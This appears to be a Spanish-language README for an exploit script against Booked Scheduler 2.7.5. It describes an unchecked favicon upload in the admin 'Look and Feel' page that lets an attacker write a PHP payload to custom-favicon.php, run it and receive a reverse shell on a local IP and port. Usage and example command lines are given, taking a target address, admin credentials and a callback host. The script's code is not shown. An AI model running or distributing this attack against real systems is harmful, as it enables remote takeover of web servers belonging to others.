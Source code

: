 # Booked Scheduler v2.7.5 Remote Command Execution

## Descripción
Este exploit aprovecha una vulnerabilidad de carga de archivos de Booked 2.7.5
En la sección **"Look and Feel"** `/booked/Web/admin/manage_theme.php`, se pueden modificar los archivos Logo-Favicon-CSS.
Las secciones de subida tienen control de la extensión del archivo, excepto la parte del favicon.
Puedes subir el archivo con la extensión que quieras a través del campo Favicon.
El archivo que subes se escribe en el directorio principal del sitio `/booked/Web/custom-favicon.php` con el nombre "custom-favicon".
Después de subir el payload php al directorio principal, el Exploit ejecuta el payload y recibe el shell.

## Uso
```python
 python3 bookedScheduler.py <target ip> <target port> <user> <password> <local ip> <local port>
```
## EJEMPLO:
```python
 python3 bookedScheduler.py 192.168.88.64 8003 "admin" "adminadmin" 192.168.88.64 22
```

